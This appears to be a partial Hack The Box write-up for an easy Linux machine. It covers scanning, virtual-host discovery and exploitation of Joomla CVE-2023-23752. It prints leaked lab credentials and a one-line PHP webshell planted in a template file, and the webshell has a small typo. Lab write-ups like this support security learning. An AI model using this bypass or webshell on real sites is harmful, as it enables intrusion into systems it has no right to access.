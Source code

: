{{date}} | {{time}}

Tags: #linux #htb #easy #joomla #CVE-2023-23752 #php-webshell



| IP                   | 10.10.11.242  |
| -------------------- | ------------- |
| Domain / Workgroup   |               |
| Hostname             |               |
| Host OS              | Linux, Ubuntu |
| Host Architecture    |               |
| Open Services        |               |
| Vulnerabilities      |               |
| User Accounts/Creds  |               |
| Admin Accounts/Creds |               |
| User Flag            |               |
| Root Flag            |               |

### Summary



### Lessons Learned



### Notes



### Narrative

Initial port scan.
![](../../_attachments/Pasted%20image%2020240422081903.png)

A more exhaustive TCP port scan was pretty much the same.

![](../../_attachments/Pasted%20image%2020240422081957.png)

Service scan on TCP 22 and TCP 80:

![](../../_attachments/Pasted%20image%2020240422082057.png)

This might be something to keep in mind but doesn't help us yet:

[CVE-2023–38408 (OpenSSH Vulnerability to RCE) | by Manjil | Medium](https://medium.com/@mane_csit2075/cve-2023-38408-openssh-vulnerability-to-rce-9e756a0369fd)

This may also be useful to keep in mind:

[NGINX through 1.18.0 allows an HTTP request smuggling... · CVE-2020-12440 · GitHub Advisory Database · GitHub](https://github.com/advisories/GHSA-6wvc-hc5h-7fqv)

The site isn't real interesting. Neither is a basic directory bust:

![](../../_attachments/Pasted%20image%2020240422111616.png)

A common tactic employed by CTF makers is to leverage virtual hosting. The scan is still running but we have something to check out while it finishes:

![](../../_attachments/Pasted%20image%2020240422122206.png)

Directory busting on this virtually hosted subdomain reveals something interesting:

![](../../_attachments/Pasted%20image%2020240422173524.png)

This leads to a Joomla admin login page. Searching for a possible bypass, led to this blog post identifying a potentially sensitive file exposed to unauthenticated users:

[CVE-2023-23752: Joomla Authentication Bypass Vulnerability (pingsafe.com)](https://www.pingsafe.com/blog/cve-2023-23752-joomla-authentication-bypass-vulnerability/)

![](../../_attachments/Pasted%20image%2020240422174057.png)

/administrator/manifests/files/joomla.xml

The version is 4.2.6. It seems that Joomla 4.2.6 is vulnerable to CVE-2023-23752:

[Joomla! CVE-2023-23752 to Code Execution - Blog - VulnCheck](https://vulncheck.com/blog/joomla-for-rce)

Inspired by this blog post, the following request was made against the API (unauthenticated):

![](../../_attachments/Pasted%20image%2020240422180750.png)

`lewis`
`P4ntherg0t1n5r3c0n##`

Unfortunately, these credentials did not allow SSH access. It did, however, allow access to the admin portal.



The admin portal allows content control, allowing the insertion of the following code into /templates/cassiopeia/index.php:

``` php
<?php if (isset($GET['cmd'])) system($_GET['cmd']); ?>
```





